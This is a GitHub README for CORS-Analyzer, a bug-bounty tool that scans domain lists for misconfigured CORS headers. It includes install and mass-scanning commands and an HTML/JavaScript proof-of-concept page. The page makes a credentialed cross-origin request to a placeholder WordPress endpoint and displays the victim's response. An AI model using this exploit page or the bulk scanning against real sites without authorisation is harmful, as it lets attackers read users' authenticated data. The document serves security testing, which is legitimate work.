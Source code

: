 # CORS-Analyzer
## This tools is developed for identifying the vulnerable cors domain

![alt text](https://raw.githubusercontent.com/hariharan005/CORS/main/lib/banner/cors-analyzer.png)

### How to install CORS-Analyzer:
```
git clone https://github.com/hariharan005/CORS.git     
ls    
cd CORS
sudo pip3 install -r requirements.txt 
cd lib && chmod +x cors.py
sudo ln -s "$(pwd)/cors.py" /usr/local/bin/cors-analyzer 
cors-analyzer
```
Now type "cors-analyzer" to access the CORS analyzer tool from anywhere

### How to install using pip:

```
For first time installation use the following command,
    pip install cors-analyzer

If you want to install the latest version of CORS-Analyzer just uninstall the old version using the following command,
    pip uninstall cors-analyzer
    pip install --upgrade cors-analyzer

For upgrade, use the following command,
    pip install --upgrade cors-analyzer

For ignore the cache, use the following command,
    pip install --ignore-cache cors-analyzer
```
### Python Version:
* Python 3 (3.x.x) latest version

### How to Use CORS-Finder:

```
For scanning:
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py                           
For scanning with output:  
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py | tee -a <output.txt>
```

### When its vulnerable:
If the header returns the 
       Access-Control-Allow-Origin: https://vulnerable.com/
       Access-Control-Allow-Credentials: true
       its vulnerable

Note: Not all the time its seems vulnerable, you have to check with cors payload and in the authenticated manner also. Try to exploit and this tool is only for indentifying the vulnerable domain

Note: In this tool i used sample domain file but you have to choose your own url file which you recon using some other recon tool.


### Exploitation examples:

Here is the Example code for exploiting the CORS misconfiguration:

Goto this line and replace the URL xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);

```
<!DOCTYPE html>
<html>
    <title>Cors POC</title>
    <style>
        body{
            background-color: white;
            justify-content: center;
        }
        button{
            justify-content: center;
            align-items: center;
            color: white;
            border-radius: 8px;
            font-size: 18px;
            background-color: #6437A0;
            position: relative;
            width: 10%;
            height: 50px;
            display: grid;
        }
    </style>
     <body>
         <h1>CORS PoC by @crypto_grapper_</h1><span><h2>Hariharan.C</h2></span>
         <div id="demo">
                <button type="button" onclick="cors()" >Wp-json Exploit</button>
            </div>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
             xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
             setTimeout(() => {
                document.location.reload("#");
             }, 5000);
         </script>
     </body>
 </html>
```